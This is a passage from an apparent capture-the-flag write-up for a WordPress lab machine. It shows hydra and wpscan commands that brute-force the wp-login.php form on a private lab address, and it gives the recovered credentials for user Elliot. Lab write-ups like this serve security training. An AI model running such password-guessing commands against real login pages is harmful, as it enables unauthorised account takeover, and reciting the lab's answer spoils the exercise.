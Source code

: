 
We got user Eliot correct  but password was wrong, let brute force password  but using hydra , because burp intruder as slow

```
log=Elliot&pwd=&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.69.10%2Fwp-admin%2F&testcookie=1
```

from these parameter modify this for hydra http-post-form 

```
sudo hydra -vV -l Elliot -P wordlist.txt 192.168.69.10 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'
```

but there are response was correct, we able to identify the correct one among many ,  `wpscan` has a user and password options use that 

```
└─# wpscan --url 192.168.69.10 --passwords wordlist.txt --usernames Elliot
```

<img src="./img/Pasted image 20240626210749.png" alt="Example Image" width="1080"/>
we got the credentials 

```
Username: Elliot, Password: ER28-0652
```

<img src="./img/Pasted image 20240626210913.png" alt="Example Image" width="1080"/>
